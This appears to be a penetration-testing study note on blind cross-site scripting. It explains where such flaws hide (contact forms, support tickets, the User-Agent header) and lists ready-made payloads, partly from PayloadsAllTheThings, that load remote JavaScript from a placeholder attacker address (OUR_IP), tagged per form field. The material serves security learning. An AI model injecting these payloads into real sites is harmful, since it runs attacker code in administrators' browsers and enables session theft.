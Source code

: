 # Blind XSS

## Overview

A _blind XSS_ vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

They usually occur with forms only accessible by certain users (e.g., admins). Some potential examples:

- Contact forms.
- Reviews.
- Support tickets.
- User details.
- HTTP User-Agent header.

For example, say that after a registration you only see a message that says "Thank you for registering". You won't see how your input is handled, or how it will look in the browser.

## Blind XSS detection

We can use a JavaScript payload that sends an HTTP request back to our server. However, this introduces two isues:

1. We can't know which specific field is vulnerable since any of them may execute our code.
2. The page may be vulnerable but the payload may not work and it's hard to choose.

## Loading a remote script

We can include a remote script within the `<script>` tags. Here are some examples of [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Then we can test payloads one by one using one of them for all of input fields and appending the name of the field like:

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```
